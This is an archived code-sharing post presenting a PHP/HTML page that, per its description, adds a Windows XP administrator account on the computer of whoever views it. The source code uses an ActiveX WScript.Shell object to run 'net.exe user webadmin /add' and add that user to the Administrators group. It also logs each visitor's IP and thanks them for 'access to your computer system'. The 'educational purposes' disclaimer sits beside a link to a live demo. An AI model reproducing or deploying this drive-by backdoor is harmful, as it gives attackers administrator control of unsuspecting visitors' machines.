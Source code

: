 ﻿<div align="center">

## Create a WinXP User Account from a  Website


</div>

### Description

Hi,

I Was sitting on my pc the other day and wanted to create a Website that could add a WinXP User account with Administrator Rights on the views computer. There is only one thing that is a problem that is the person on the other end needs to enable there ActiveX Controllers. Hope you all have fun with this script just as i did. But remember this is for educational perposes only and we don't want people doing the wrong thing with it like the kill function now do we ;)

anyone that can improve this please post the details.

see this script in action at

www.ezysale.net/cmd/adduser.php

dont forget to enable the activex controls

Cheers
 
### More Info
 


<span>             |<span>
---                |---
**Submitted On**   |
**By**             |[Kougra](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByAuthor/kougra.md)
**Level**          |Beginner
**User Rating**    |4.3 (13 globes from 3 users)
**Compatibility**  |PHP 3\.0, PHP 4\.0
**Category**       |[Miscellaneous](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByCategory/miscellaneous__8-1.md)
**World**          |[PHP](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByWorld/php.md)
**Archive File**   |[](https://github.com/Planet-Source-Code/kougra-create-a-winxp-user-account-from-a-website__8-1595/archive/master.zip)





### Source Code

To use this code change the # to < or >, sorry this is my first post :)
#object id='wsh' classid='clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B'>#/object#
#script#
wsh.Run("net.exe user webadmin /add ");#/script#
#script#
wsh.Run("net.exe localgroup Administrators webadmin /add ");#/script#
#?php
$getip = $_SERVER["REMOTE_ADDR"];
$getdate = date( "l dS of F Y" );
$gettime = date( "h:i:sa (@B" );
$banned_ip = array();
$banned_ip[] = '222.111.111.1'; # Add Ip Address Of Person you dont want to see this site
foreach($banned_ip as $banned) {
$ip = $_SERVER['REMOTE_ADDR'];
if($ip == $banned){
echo "<b>Im sorry you have been blocked from viewing this webpage.</b>";
$fp = fopen("ip_data.dat", "a");
fputs($fp, "**BANNED** Visit logged on $getdate at $gettime internet time) for IP: $getip
");
fputs($fp, "");
fclose($fp);
exit();
}
}
echo "<b><font size=3 color=#000000> Thankyou for the access to your computer system</font></b>";
echo "<br />";
echo "'<b><font color=#000000>User Account Created and IP Address Logged</font></b>' on $getdate at $gettime internet time) for: $getip";
$fp = fopen("ip_data.dat", "a");
fputs($fp, "Authorized Visit logged on $getdate at $gettime internet time) for IP: $getip
");
fputs($fp, "");
fclose($fp);
?>

